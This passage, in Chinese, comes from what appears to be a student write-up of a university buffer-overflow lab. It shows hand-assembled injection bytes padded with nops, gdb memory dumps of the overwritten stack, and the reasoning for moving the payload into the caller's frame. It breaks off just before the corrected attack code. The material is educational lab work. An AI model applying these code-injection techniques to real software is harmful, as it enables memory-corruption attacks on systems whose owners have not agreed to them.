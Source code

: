 ```
  14:	90                   	nop

```

那么其字节应该是`bf 78 dc 61 55 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节，加上最前面 8 个字节，一共 25 个字节。最后插入 15 个字节的`nop`。
执行过程中内存情况如下：

```
(gdb) x/48xb 0x5561dc78
0x5561dc78:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc80:     0xbf    0x78    0xdc    0x61    0x55    0x48    0x83    0xec
0x5561dc88:     0x08    0xc7    0x04    0x24    0xfa    0x18    0x40    0x00
0x5561dc90:     0xc3    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dc98:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0x5561dca0:     0x80    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

而这里我们打印值后发现我们的`%edi`所指向的字符串如下：

```
(gdb) x/s $rdi
0x5561dc78:     "59b997fa\277x\334aUH\203\354\b\307\004$\372\030@"
```

而`cookie`的值如下：

```
(gdb) p /x cookie
$14 = 0x59b997fa
```

但是后来这个`buf`的空间就变成了这样：

```
5: x/48xb 0x5561dc78
0x5561dc78:     0x00    0x2e    0x40    0xcb    0xed    0x3e    0x25    0xb2
0x5561dc80:     0x78    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
0x5561dc88:     0xe8    0x5f    0x68    0x55    0x00    0x00    0x00    0x00
0x5561dc90:     0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x16    0x19    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dca0:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
```

但是我们后来发现，这里栈的内容被完全改变了，而且字符串的后面忘了加`\0`字符。所以这里是有一些问题的。

#### 正确的解答

经过查阅一些[网上的资料](https://zhuanlan.zhihu.com/p/60724948)发现，我在阅读 C 语言代码的时候忽略了这 2 行：

```c
char cbuf[110];
/* Make position of check string unpredictable */
char *s = cbuf + random() % 100;
```

那么`hexmatch`和`strncmp`中分配的空间就是随机的。那么我们所做出的改变应该是让插入的字符串放在父函数`test`的位置，然后让`%rdi`指向`test`栈空间中的位置。`test`函数的位置在返回地址下面，那么应该是`buf + 48`即`0x5561dca8`。其字符`bf 78 dc 61 55 48 83 ec 00`应该在返回地址后面。而攻击代码也应该改为：

